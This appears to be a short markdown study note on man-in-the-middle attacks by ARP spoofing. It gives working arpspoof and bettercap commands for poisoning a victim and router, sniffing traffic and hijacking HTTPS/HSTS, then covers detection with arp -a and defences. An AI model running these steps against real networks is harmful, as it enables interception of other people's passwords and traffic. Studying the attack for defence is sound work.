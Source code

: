 # Man in the middle attack (by arp spoofing) 

Man in the middle attack tricks the victim's computer to believe that the hacker's computer is the router, and tricks the router to believe that the hacker's computer is the victim.


### Idealogy:
send to the victim with the arp packet: (router ip) is at (hacker's mac address), and send to the router with the arp packet: (victim ip) is at (hacker's mac address).

    Send to the victim: (router ip) is at (hacker's mac address)
    arpspoof [-i interface] [-t victim] router

    Send to the router: (victim ip) is at (hacker's mac address)
    arpspoof [-i interface] [-t router] victim

By opening forwarding, the victim's internet activity flows through the hacker, and thus it can be monitored.

    sudo sysctl net.ipv4.ip_forward=1

By not opening forwarding, the victim loses internet access.

    sudo sysctl net.ipv4.ip_forward=0
    
Bypassing https:
To bypass https, the hacker must force the connection to use http. 

However, some sites are hsts enabled, which means that only https are allowed, thus a hacker must change the url name to a different url such as facebook.corn or wwww.sites.com. 

Bettercap provides easy-to-use tool for this.

        bettercap
        net.probe on # start looking for targets
        net.show # show all discovered devices in the network
        set arp.spoof.targets <target>
        set arp.spoof.fullduplex <true> # spoof both the router and the victim
        arp.spoof on
        net.sniff on # sniff for incoming packets
        hstshijack # hijack https and hsts by the methods above.
        

### Applications:
Getting man in the middle allows dos attack, password sniffing, inject javascript in web browsers, backdoor files on the fly, etc.

### How to know if you are the victim?

Make sure you know the actual router's mac address. If your arp cache for the router has a different mac address or multiple mac addresses for one IP, then you are spoofed.
arp -a lists all arp caches in your computer

### Defend against it:
Install HTTPS EVERYWHERE (https://www.eff.org/https-everywhere). This addon forces connection to go through https, thus hackers cannot sniff for passwords.
Use a reliabe VPN, but beware that the VPN provider can theoretically monitor your data.
